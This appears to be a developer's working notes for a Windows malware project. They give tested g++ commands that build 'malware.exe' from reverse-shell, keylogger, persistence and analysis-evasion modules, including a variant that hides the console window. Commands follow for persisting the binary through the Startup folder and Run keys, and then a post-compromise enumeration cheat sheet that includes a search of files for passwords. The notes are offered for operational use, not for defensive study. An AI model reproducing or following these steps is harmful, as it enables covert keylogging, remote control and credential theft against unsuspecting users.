 compile without keylogger g++ -Wno-deprecated-declarations -IC:/mingw64/include -IC:/crypto -IC:/fmt-11.0.2/fmt-11.0.2/include -IC:/Users/alexa/json/include -I. -LC:/mingw64/lib -LC:/OpenSSL-Win64/lib/VC/x64/MD -LC:/curl-8.11.0_1-win64-mingw/lib -o malware.exe main.cpp ReverseShell.cpp utils.cpp persistence.cpp AnalysisEvasion.cpp Paths.cpp Authenticator.cpp Utilities.cpp -lcurl -lssl -lcrypto -lgdi32 -luser32 -lkernel32 -lole32 -loleaut32 -lws2_32 -luuid -lwbemuuid -lwinhttp -static

everything tested and working with 
g++ -Wno-deprecated-declarations -IC:/mingw64/include -IC:/crypto -IC:/fmt-11.0.2/fmt-11.0.2/include -IC:/Users/alexa/json/include -I. -LC:/mingw64/lib -LC:/OpenSSL-Win64/lib/VC/x64/MD -LC:/curl-8.11.0_1-win64-mingw/lib -o malware.exe main.cpp ReverseShell.cpp keylogger.cpp utils.cpp persistence.cpp AnalysisEvasion.cpp Paths.cpp Authenticator.cpp Utilities.cpp -lcurl -lssl -lcrypto -lgdi32 -luser32 -lkernel32 -lole32 -loleaut32 -lws2_32 -luuid -lwbemuuid -lwinhttp -static



compile command tested to run console not in view g++ -Wno-deprecated-declarations -IC:/mingw64/include -IC:/crypto -IC:/fmt-11.0.2/fmt-11.0.2/include -IC:/Users/alexa/json/include -I. -LC:/mingw64/lib -LC:/OpenSSL-Win64/lib/VC/x64/MD -LC:/curl-8.11.0_1-win64-mingw/lib -o malware.exe main.cpp ReverseShell.cpp keylogger.cpp utils.cpp persistence.cpp AnalysisEvasion.cpp Paths.cpp -lcurl -lssl -lcrypto -lgdi32 -luser32 -lkernel32 -lole32 -loleaut32 -lws2_32 -luuid -lwbemuuid -lwinhttp -static -mwindows



ReverseShell

g++ -IC:/mingw64/include -IC:/crypto -IC:/fmt-11.0.2/fmt-11.0.2/include -IC:/Users/alexa/json/include -I. -LC:/mingw64/lib -LC:/OpenSSL-Win64/lib/VC/x64/MD -LC:/curl-8.11.0_1-win64-mingw/lib -lcurl -lssl -lcrypto -lgdi32 -luser32 -lkernel32 -o malware.exe keylogger.cpp main.cpp utils.cpp persistence.cpp AnalysisEvasion.cpp




g++ -Wno-deprecated-declarations -IC:/mingw64/include -IC:/crypto -IC:/fmt-11.0.2/fmt-11.0.2/include -IC:/Users/alexa/json/include -I. -LC:/mingw64/lib -LC:/OpenSSL-Win64/lib/VC/x64/MD -LC:/curl-8.11.0_1-win64-mingw/lib -o malware.exe main.cpp ReverseShell.cpp keylogger.cpp utils.cpp persistence.cpp AnalysisEvasion.cpp Paths.cpp -lcurl -lssl -lcrypto -lgdi32 -luser32 -lkernel32 -lole32 -loleaut32 -lws2_32 -luuid -lwbemuuid -lwinhttp




persistence
check to verify it's in place
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"

copy "C:\Users\johns\Downloads\malware.exe" "C:\ProgramData\malware.exe"

3. Startup Folder
Copy malware.exe to the Startup folder to execute it when the user logs in.

Command:
cmd
Copy code
copy "C:\Users\shiti\Downloads\malware.exe" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\malware.exe"


1. System Information
General System Info:

cmd
Copy code
systeminfo
Operating System Version:

cmd
Copy code
ver
Detailed OS Info:

cmd
Copy code
wmic os get Caption, Version, BuildNumber, OSArchitecture
BIOS Information:

cmd
Copy code
wmic bios get Manufacturer, Version, SerialNumber
System Boot Time:

cmd
Copy code
wmic os get LastBootUpTime
List Environment Variables:

cmd
Copy code
set
🔹 2. User and Group Enumeration
List All Users:

cmd
Copy code
net user
Detailed User Info:

cmd
Copy code
net user [username]
List All Groups:

cmd
Copy code
net localgroup
Members of Administrators Group:

cmd
Copy code
net localgroup administrators
Current Logged-in User:

cmd
Copy code
whoami
List User Privileges:

cmd
Copy code
whoami /priv
Domain Info (if domain-joined):

cmd
Copy code
net config workstation
🔹 3. Password Policies
View Local Password Policy:

cmd
Copy code
net accounts
Check Account Lockout Policy:

cmd
Copy code
net accounts
List Password Policies via secedit:

cmd
Copy code
secedit /export /cfg C:\policy.txt
type C:\policy.txt
🔹 4. Network Enumeration
IP Configuration:

cmd
Copy code
ipconfig /all
List Open Ports:

cmd
Copy code
netstat -an
List Active Connections:

cmd
Copy code
netstat -ano
ARP Table:

cmd
Copy code
arp -a
Routing Table:

cmd
Copy code
route print
Network Shares:

cmd
Copy code
net share
Mapped Drives:

cmd
Copy code
net use
DNS Cache:

cmd
Copy code
ipconfig /displaydns
Firewall Configuration:

cmd
Copy code
netsh firewall show state
🔹 5. Installed Applications and Updates
List Installed Programs:

cmd
Copy code
wmic product get Name, Version
List Installed Hotfixes/Updates:

cmd
Copy code
wmic qfe get Description, HotFixID, InstalledOn
List Startup Programs:

cmd
Copy code
wmic startup get Caption, Command
🔹 6. Services and Processes
List All Services:

cmd
Copy code
sc query state= all
List Running Processes:

cmd
Copy code
tasklist
Detailed Process Info:

cmd
Copy code
wmic process get Name, ProcessId, CommandLine
Check Scheduled Tasks:

cmd
Copy code
schtasks /query /fo LIST /v
🔹 7. File and Directory Enumeration
List Files and Directories (Recursive):

cmd
Copy code
dir /s
List Hidden Files:

cmd
Copy code
dir /a:h
Find Files Containing Keywords:

cmd
Copy code
findstr /s /i "password" *.*
Check File Permissions:

cmd
Copy code
icacls [filename]
Search for Executable Files:

cmd
Copy code
dir *.exe /s /b
🔹 8. Security Policies and Configuration
Local Security Policy Export:

cmd
Copy code
secedit /export /cfg C:\security_policy.cfg
Group Policy Results:

cmd
Copy code
gpresult /v
Audit Policy:

cmd
Copy code
auditpol /get /category:*
Registry Autoruns:

cmd
Copy code
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
🔹 9. Windows Event Logs
System Logs:

cmd
Copy code
wevtutil qe System /c:5 /f:text
Security Logs:

cmd
Copy code
wevtutil qe Security /c:5 /f:text
Application Logs:

cmd
Copy code
wevtutil qe Application /c:5 /f:text
🔹 10. Miscellaneous Commands
Disk Usage and Free Space:

cmd
Copy code
fsutil volume diskfree C:
Check System Uptime:

cmd
Copy code
net stats srv
System Drives Info:

cmd
Copy code
wmic logicaldisk get DeviceID, FileSystem, FreeSpace, Size, VolumeName
Check for Open Files:

cmd
Copy code
openfiles /query
View Running Services:

cmd
Copy code
tasklist /svc